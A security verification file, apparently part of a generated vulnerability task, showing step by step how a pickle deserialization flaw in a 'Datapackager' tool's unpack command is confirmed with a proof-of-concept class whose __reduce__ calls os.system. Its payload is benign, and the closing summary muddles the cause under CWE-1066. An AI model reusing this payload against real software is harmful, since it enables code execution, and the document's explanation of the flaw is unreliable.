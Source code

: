 
# verify.md

## CWE-1066: The product contains a serializable data element that does not have an associated serialization method.

**Location:**  
- Class: `DataContainer`  
- File: `src/main.py`, lines 6-9  
- Usage: `Packager.export()` (serializes instance with `pickle.dump`), lines 17-20; `Packager.import_package()` (deserializes with `pickle.load`), lines 22-25.

**Verification Steps:**

1. _Install requirements (none needed):_
   ```
   cd projects/Datapackager
   ```

2. _Prepare a malicious `malicious.py` class to abuse pickle deserialization:_
   ```python
   # projects/Datapackager/malicious.py
   import pickle
   import os

   class DataContainer:
       def __reduce__(self):
           return (os.system, ('echo MALICIOUS_CODE > exploited.txt',))

   # Generate a malicious package
   with open('malicious_package.dp', 'wb') as f:
       obj = DataContainer()
       pickle.dump(obj, f)
   ```
3. _Run the malicious generator:_
   ```
   python3 malicious.py
   ```

4. _Run the Datapackager tool to "unpack" the malicious package (will execute payload):_
   ```
   python3 src/main.py unpack malicious_package.dp
   ```
   - This will create a file named `exploited.txt` in the current directory if the deserialization is vulnerable.

5. _Check for the presence of the malicious file:_
   ```
   cat exploited.txt
   # Output should be: MALICIOUS_CODE
   ```

**Summary:**
- The absence of a custom serialization strategy (e.g., using `__reduce__` or safe serialization/deserialization) in `DataContainer` allows replacement of this class by an attacker, so unsafe code execution is triggered during unpickling, demonstrating CWE-1066.
